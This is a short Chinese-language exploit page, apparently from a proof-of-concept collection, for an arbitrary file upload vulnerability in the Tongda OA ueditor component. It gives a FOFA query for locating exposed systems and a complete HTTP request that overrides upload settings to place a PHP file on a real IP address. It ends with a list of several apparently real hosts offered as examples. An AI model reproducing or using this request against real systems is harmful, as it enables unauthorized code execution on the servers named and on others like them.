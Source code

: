 # 通达 oa 协同办公系统 ueditor moduleueditorphpaction_upload.php任意文件上传

    ## fofa

```
app="TDXK-通达OA"
```

## exp

```
POST /module/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=module/ueditor/php/upload/test&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=test HTTP/1.1
Host: 60.190.185.74:88
accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bvdnf1pq3ag7c7gej46f6i4g80; KEY_RANDOMDATA=11700
Content-Type: multipart/form-data; boundary=0b10048704813c1097efc627598b2d3e
Connection: close
Content-Length: 204

--0b10048704813c1097efc627598b2d3e
Content-Disposition: form-data; name="test"; filename="test.php"
Content-Type: application/octet-stream

<?php echo '555';?>
--0b10048704813c1097efc627598b2d3e—
```

http://60.190.185.74:88/module/ueditor/php/upload/test.php

![image](https://s1.ax1x.com/2023/04/06/ppoSX0U.png)

## 例子

```
http://1.202.216.130:3199
http://117.159.225.185:8088
http://125.31.39.26:8088
http://139.159.189.132:7086
http://148.70.171.132:81
http://183.250.243.227:8001
http://218.16.142.55:8888
http://218.70.17.86:88
http://60.190.185.74:88
```

